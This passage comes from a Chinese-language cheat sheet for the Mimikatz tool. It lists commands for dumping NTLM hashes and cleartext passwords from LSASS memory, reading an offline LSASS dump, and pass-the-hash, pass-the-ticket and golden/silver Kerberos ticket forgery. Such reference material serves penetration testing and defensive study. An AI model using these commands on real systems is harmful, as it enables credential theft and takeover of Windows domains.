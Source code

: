 #### [sekurlsa::msv](#toc_sekurlsamsv)

提取 NTLM/LM hash 凭证

#### [sekurlsa::ssp/livessp/tspkg](#toc_sekurlsassplivessptspkg)

抓取对应的明文密码

#### [sekutlsa::logonPasswords](#toc_sekutlsalogonpasswords)

抓取以上各种密码

#### [sekurlsa::process](#toc_sekurlsaprocess)

将自己的进程切换到 lsass 进程中，之前只是注入读取信息

#### [sekurlsa::minidump file](#toc_sekurlsaminidump-file)

这个模块可以读取已经打包的内存信息，

比如上述命令已经将 lsass 进程中的内存信息保存为 dmp 文件了 那么此时我们可以离线读取其中的信息 但是需要指定文件名。

加载 dmp 文件，并导出其中的明文密码

```bash
 sekurlsa::minidump lsass.dmp

 sekurlsa::logonpasswords full
```

#### [sekurlsa::pth](#toc_sekurlsapth)

pass-the-hash hash 传递攻击

### [Kerberos 模块（常用于金银票据）](#toc_kerberos)

#### [kerberos::list](#toc_kerberoslist)

列出当前所有的票据（等同于 klist）

#### [kerberos::purge](#toc_kerberospurge)

清除系统中的票据

#### [kerberos::ptt](#toc_kerberosptt)

Pass The Ticket 即票据传递

#### [Kerberos::golden](#toc_kerberosgolden)

伪造票据 如金银票据

具体的操作看之前总结的黄金票据与白银票据

### [Crypto（导出未标记为可导出的证书）](#toc_crypto)
